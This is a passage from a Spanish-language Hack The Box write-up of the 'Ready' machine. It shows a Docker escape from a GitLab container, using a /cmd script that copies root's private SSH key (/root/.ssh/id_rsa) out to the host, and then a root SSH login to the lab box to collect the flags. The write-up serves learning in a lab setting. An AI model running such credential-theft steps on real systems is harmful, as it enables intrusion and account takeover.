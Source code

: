 ```bash
root@gitlab:/# cat output 
total 60
drwx------ 10 root root 4096 Dec  7 17:02 .
drwxr-xr-x 20 root root 4096 Dec  7 17:44 ..
lrwxrwxrwx  1 root root    9 Jul 11  2020 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Dec  5  2019 .bashrc
drwx------  2 root root 4096 May  7  2020 .cache
drwx------  3 root root 4096 Jul 11  2020 .config
-rw-r--r--  1 root root   44 Jul  8  2020 .gitconfig
drwxr-xr-x  3 root root 4096 May  7  2020 .local
lrwxrwxrwx  1 root root    9 Dec  7 17:02 .mysql_history -> /dev/null
-rw-r--r--  1 root root  161 Dec  5  2019 .profile
-rw-r--r--  1 root root   75 Jul 12  2020 .selected_editor
drwx------  2 root root 4096 Dec  7 16:49 .ssh
drwxr-xr-x  2 root root 4096 Dec  1 12:28 .vim
lrwxrwxrwx  1 root root    9 Dec  7 17:02 .viminfo -> /dev/null
drwxr-xr-x  3 root root 4096 Dec  1 12:41 docker-gitlab
drwxr-xr-x 10 root root 4096 Jul  9  2020 ready-channel
-r--------  1 root root   33 Jul  8  2020 root.txt
drwxr-xr-x  3 root root 4096 May 18  2020 snap
root@gitlab:/# 
```

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/ready/304google_gif_omgBOOM.gif" class="img-to-zoom" data-toggle="modal" data-target=".modal-zoomed-img" style="width: 40%;"/>

Perfecto, perfectisimo... Pues hagamos lo mismo, pero extraigamos la llave privada SSH (`id_rsa`) del usuario root (bueno, si es que existe), para así entrar sin necesitar contraseña:

```bash
...
...
root@gitlab:~# echo '#!/bin/sh' > /cmd
root@gitlab:~# echo "cat /root/.ssh/id_rsa > $host_path/output" >> /cmd
root@gitlab:~# chmod a+x /cmd
...
...
```

Y el resultado:

![304bash_idRSA_root](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/ready/304bash_idRSA_root.png)

Ahora guardémosla en un archivo, le damos los permisos necesarios (`chmod 600 keyroot`) y entremos :O

```bash
–» ssh root@10.10.10.220 -i keyroot
```

![304bash_idRSA_root_shell](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/ready/304bash_idRSA_root_shell.png)

Ta nice eh!! Bueno, solo nos quedaría ver las flags:

![304flags1](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/ready/304flags1.png)

![304flags2](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/ready/304flags2.png)

...

Final de la máquina neas :P En general me gusto, el tema de **Docker** está superinteresante y loco.

¡Nos charlamos en otro set de ideas y bueno, a seguir rompiendo todo!! ❤️🖤